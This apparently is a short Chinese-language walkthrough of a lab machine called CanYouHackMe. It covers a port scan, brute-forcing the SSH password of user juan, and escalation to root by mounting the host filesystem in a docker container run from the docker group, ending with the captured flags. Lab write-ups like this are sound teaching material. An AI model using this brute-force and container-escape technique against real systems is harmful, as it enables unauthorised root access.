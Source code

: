 # CanYouHackMe

2025.02.28 https://thehackerslabs.com/canyouhackme/

[video](https://www.bilibili.com/video/BV1f6XSYVEqh/?spm_id_from=333.1387.collection.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 web 跳转到 http://canyouhackme.thl/ ，将域名 canyouhackme.thl 添加到 hosts 中，扫描目录，没发现新的 url，查看页面源代码，发现：

```
Hola juan, te he dejado un correo importate, cundo puedas, leelo
```

得到用户名 juan 和 leelo，让 juan 看邮件。其他什么都没有，只好先爆 juan 的 ssh 登陆密码，等了很长一段时间得到了密码: matrix

登陆后，终端顶部到了 user flag：

```
44053c9499fe4672492a928bfbc4e21f
```

看一下 mail 什么都没有，但是在.bash_history 中发现操作记录：

```
juan@TheHackersLabs-CanYouHackMe:~$ cat .bash_history
rm .bash_history
cd /var/mail
ls
clear
cat para\ juan.txt
cat para\ root.txt
clear
docker run -it -v /:/mnt alpine
docker rm -f flamboyant_mclaren
docker rmi alpine
clear
docker run -it -v /:/mnt alpine
clear
su
exit
```

发现 juan 属于 docker 组，可以直接提权，拿到最终 root flag：

```
docker images

docker run -v /:/mnt --rm -it alpine chroot /mnt sh

# cat root.txt
233f3a6e802743abec7f5dcc311697a0
```
